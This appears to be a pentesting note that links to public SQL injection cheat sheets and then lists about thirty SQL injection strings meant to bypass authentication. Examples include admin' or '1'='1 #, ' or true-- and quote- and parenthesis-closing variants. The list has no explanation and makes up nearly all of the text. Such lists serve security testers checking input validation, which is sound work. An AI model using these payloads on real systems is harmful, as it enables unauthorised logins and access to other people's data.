 https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md
http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet

```
admin' or '1'='1 #
-'
' '
'&'
'^'
'*'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
"-"
" "
"&"
"^"
"*"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--
" or true--
' or true--
") or true--
') or true--
' or 'x'='x
') or ('x')=('x
')) or (('x'))=(('x
" or "x"="x
") or ("x")=("x
")) or (("x"))=(("x
```
